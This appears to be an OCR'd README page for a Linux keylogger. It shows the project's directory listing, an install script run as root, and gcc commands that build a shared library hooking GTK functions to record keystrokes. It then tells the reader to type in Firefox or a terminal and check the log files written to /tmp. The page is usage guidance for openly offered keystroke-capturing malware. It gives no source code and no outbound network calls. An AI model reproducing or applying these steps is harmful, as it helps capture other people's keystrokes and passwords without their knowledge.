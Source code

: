 You should see a directory tree as the following:

drwxr-xr-x 11 diwou staff  352 Oct  4 12:55 .  drwxr-xr-x 68 diwou staff
2176 Oct  4 12:58 ..  -rw-r--r--  1 diwou staff 6148 Apr 17 12:59 .DS_Store
-rw-r--r--  1 diwou staff  689 Apr 17 13:00 Makefile.x64 -rw-r--r--  1
diwou staff  701 Apr 17 13:11 Makefile.x86 drwxr-xr-x  8 diwou staff  256
Apr 17 13:03 deps drwxr-xr-x  5 diwou staff  160 Apr 17 13:00 doc
drwxr-xr-x  7 diwou staff  224 Apr 17 13:00 include -rwxr-xr-x  1 diwou
staff 6321 Apr 17 14:16 install drwxr-xr-x  9 diwou staff  288 Oct  4 13:02
src -rwxr-xr-x  1 diwou staff 1384 Apr 17 13:00 uninstall

On a one of the supported operating systems listed before, and with the
supported libgtk installed, as root run the install script:

root@diwou-VirtualBox:~/shared_folder/ubuntu-x86# ./install Detected Linux
distribution is Ubuntu.  Installing deps ...  Leyendo lista de paquetes...
Hecho Creando árbol de dependencias       Leyendo la información de
estado... Hecho g++ ya está en su versión más reciente (4:5.3.1-1ubuntu1).
gcc ya está en su versión más reciente (4:5.3.1-1ubuntu1).  make ya está en
su versión más reciente (4.1-6).  cmake ya está en su versión más reciente
(3.5.1-1ubuntu3).  0 actualizados, 0 nuevos se instalarán, 0 para eliminar
y 391 no actualizados.  Please, enter a logging path [/tmp]: Compiling
Keylogger ...  gcc -I./include -c src/hook_entries_x86.S -o
src/hook_entries_x86.o
# uncomment for dev mode
#gcc -DKL_DEBUG -g -I./include -I./deps/capstone-3.0.5-rc2/include -Wall -o
libksutil-1.so.0 -shared -fPIC -ldl src/keylogger_shared_library.c
src/hook_entries_x86.o ./deps/capstone-3.0.5-rc2/libcapstone.a gcc
-I./include -I./deps/capstone-3.0.5-rc2/include -Wall -o libksutil-1.so.0
-shared -fPIC -ldl src/keylogger_shared_library.c src/hook_entries_x86.o
./deps/capstone-3.0.5-rc2/libcapstone.a src/keylogger_shared_library.c: In
function ‘HookGtkFunction’: src/keylogger_shared_library.c:1323:17:
warning: format ‘%x’ expects argument of type ‘unsigned int’, but argument
5 has type ‘long unsigned int’ [-Wformat=] "mov %s, 0x%x", ^
src/keylogger_shared_library.c:1323:17: warning: format ‘%x’ expects
argument of type ‘unsigned int’, but argument 5 has type ‘long unsigned
int’ [-Wformat=] g++ -o libasutil-1.so.0 src/kstool.cpp -Wall
-I./deps/keystone-0.9.1/include
./deps/keystone-0.9.1/build/llvm/lib/libkeystone.a done!

-------

Now the keylogger is installed.

Open an instance of Firefox for example, or a new terminal and write.

As you can see on the directory you choosed (/tmp for this case), there're
new .txt files.

diwou@diwou-VirtualBox:~/shared_folder/ubuntu-x86$ ls /tmp
config-err-gW7SKO
firefox.2595.2595.method1.log
firefox_diwou
systemd-private-c1ff4aea416542d38766daa829d3ec41-colord.service-IuWFjn
systemd-private-c1ff4aea416542d38766daa829d3ec41-rtkit-daemon.service-khr7wd
unity_support_test.1
